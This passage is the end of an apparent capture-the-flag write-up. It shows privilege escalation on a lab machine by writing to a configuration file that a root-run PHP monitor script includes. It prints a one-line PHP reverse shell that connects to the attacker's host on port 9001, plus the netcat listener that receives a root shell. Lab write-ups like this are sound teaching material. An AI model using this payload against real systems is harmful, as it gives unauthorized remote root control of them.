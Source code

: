 We can't touch `monitor.php` but I see that config gives the `management` group write access. Checking my id and we are part of that group.

```terminal
albert@alert:/opt/website-monitor/config$ id                                                   
uid=1000(albert) gid=1000(albert) groups=1000(albert),1001(management)
```

`monitor.php` is including the file `configuration.php` located in config.

```terminal
include('config/configuration.php')
```

So we can add a php reverse shell to that configuration file and get root. I'll use the following php code.

```php
$sock=fsockopen("10.10.16.8",9001);exec("sh <&3 >&3 2>&3");
```

Now we setup a listener and wait.

```terminal
[★]$ nc -lvnp 9001                                                                         
listening on [any] 9001 ...                                                                    
connect to [10.10.16.8] from (UNKNOWN) [10.10.11.44] 42032
id                                                                                             
uid=0(root) gid=0(root) groups=0(root)
```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
